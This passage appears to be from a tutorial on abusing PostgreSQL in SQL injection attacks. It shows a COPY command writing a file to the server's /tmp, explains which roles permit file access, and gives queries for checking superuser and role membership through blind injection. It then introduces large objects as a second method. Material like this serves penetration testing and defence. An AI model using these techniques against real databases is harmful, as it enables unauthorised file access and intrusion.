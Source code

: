 ```shell
bluebird=# CREATE TABLE tmp (t TEXT);
CREATE TABLE
bluebird=# INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
INSERT 0 1
bluebird=# COPY tmp TO '/tmp/proof.txt';
COPY 1
bluebird=# DROP TABLE tmp;
DROP TABLE
bluebird=# exit

cat /tmp/proof.txt
To hack, or not to hack, that is the question

```

Since all data is put into one column, there is no issue with delimiters when it comes to writing files.

#### Permissions

In order to use `COPY` to read/write files, the user must either have the [pg\_read\_server\_files / pg\_write\_server\_files](https://www.postgresql.org/docs/11/default-roles.html) role respectively, or be a superuser.

Checking if a user is a superuser is quite straightforward and can be easily tested in blind injection scenarios:

```shell
bluebird=# SELECT current_setting('is_superuser');
 current_setting
-----------------
 on
(1 row)

```

Checking if a user has a specific role is not so simple. Locally we could run `\du`, but through an injection we would need something like:

```shell
bluebird=# SELECT r.rolname, ARRAY(SELECT b.rolname FROM pg_catalog.pg_auth_members m JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid) WHERE m.member = r.oid) as memberof FROM pg_catalog.pg_roles r WHERE r.rolname='fileuser';
 rolname  |        memberof
----------+------------------------
 fileuser | {pg_read_server_files}
(1 row)

```

## Method 2: Large Objects

The second method for dealing with files is with [large objects](https://www.postgresql.org/docs/current/largeobjects.html). This is a bit trickier than the `COPY` function, but at the same time it is a very powerful feature.
